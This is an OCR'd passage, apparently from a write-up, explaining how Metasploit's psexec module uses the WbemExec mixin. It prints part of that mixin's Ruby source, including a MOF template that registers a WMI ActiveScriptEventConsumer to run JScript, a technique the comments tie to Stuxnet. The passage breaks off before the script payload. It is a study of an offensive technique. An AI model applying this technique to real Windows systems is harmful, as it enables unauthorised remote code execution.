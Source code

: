 Metasploit's psexec module imports yet another module to craft a .mof file:

```ruby
include Msf::Exploit::WbemExec
```

The name of the module is WbemExec because WMI is an implementation of Web-Based Enterprise Management (WEBM). The code of this module is at /usr/share/metasploit-framework/lib/msf/core/exploit/wbemexec.rb and is pretty short I'm posting it as a whole:

```ruby
┌─[baud@parrot]─[~/dropzone]
└──╼ $cat /usr/share/metasploit-framework/lib/msf/core/exploit/wbemexec.rb
# -*- coding: binary -*-

#
# This mixin enables executing arbitrary commands via the
# Windows Management Instrumentation service.
#
# By writing the output of these methods to %SystemRoot%\system32\WBEM\mof,
# your command line will be executed.
#
# This technique was used as part of Stuxnet and further reverse engineered
# to this form by Ivanlef0u and jduck.
#

module Msf
module Exploit::WbemExec

def generate_mof(mofname, exe)

classname = rand(0xffff).to_s

# From Ivan's decompressed version
mof = <<-EOT
#pragma namespace("\\\\\\\\.\\\\root\\\\cimv2")
class MyClass@CLASS@
{
	[key] string Name;
};
class ActiveScriptEventConsumer : __EventConsumer
{
	[key] string Name;
	[not_null] string ScriptingEngine;
	string ScriptFileName;
	[template] string ScriptText;
	uint32 KillTimeout;
};
instance of __Win32Provider as $P
{
	Name  = "ActiveScriptEventConsumer";
	CLSID = "{266c72e7-62e8-11d1-ad89-00c04fd8fdff}";
	PerUserInitialization = TRUE;
};
instance of __EventConsumerProviderRegistration
{
	Provider = $P;
	ConsumerClassNames = {"ActiveScriptEventConsumer"};
};
Instance of ActiveScriptEventConsumer as $cons
{
	Name = "ASEC";
	ScriptingEngine = "JScript";
```